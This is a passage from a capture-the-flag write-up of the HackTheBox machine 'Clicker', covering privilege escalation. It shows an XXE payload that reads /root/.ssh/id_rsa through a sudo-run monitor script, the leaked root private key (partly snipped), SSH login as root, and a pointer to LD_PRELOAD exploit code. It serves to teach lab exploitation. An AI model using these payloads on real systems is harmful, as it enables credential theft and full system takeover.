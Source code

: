     lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
    _rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
    statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
    _laurel:x:998:998::/var/log/laurel:/bin/false
    </file>


#### SSH Key

There are a handful of files I could try to read. `root.txt` would be a
start, but I'd rather go for a shell. There happens to be a root SSH key
when I set the XML to:



    <?xml version="1.0"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "/root/.ssh/id_rsa">]>
    <file>&ent;</file>



The result is:



    jack@clicker:~$ sudo http_proxy=http://10.10.14.6:8080 /opt/monitor.sh 
    <?xml version="1.0"?>
    <!DOCTYPE replace [
    <!ENTITY ent SYSTEM "/root/.ssh/id_rsa">
    ]>
    <file>-----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAmQBWGDv1n5tAPBu2Q/DsRCIZoPhthS8T+uoYa6CL+gKtJJGok8xC
    ...[snip]...
    UyOYOJc1Mv8zkAAAAMcm9vdEBjbGlja2VyAQIDBAUGBw==
    -----END OPENSSH PRIVATE KEY-----
    </file>



With that, I'm able to save it to a file on my host, and SSH in:



    oxdf@hacky$ vim ~/keys/clicker-root
    oxdf@hacky$ chmod 600 ~/keys/clicker-root
    oxdf@hacky$ ssh -i ~/keys/clicker-root root@clicker.htb
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)
    ...[snip]...
    root@clicker:~# 



### Method #3 via LD_PRELOAD

Ippsec actually pointed this one out to me (though I'm embarrassed I
missed it in hindsight). If I can set almost any environment variable,
why not `LD_PRELOAD`? `LD_PRELOAD` is an environment variable that tells
all running programs of a library to load on executing. [This HackTricks
page](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)
has exploit code.
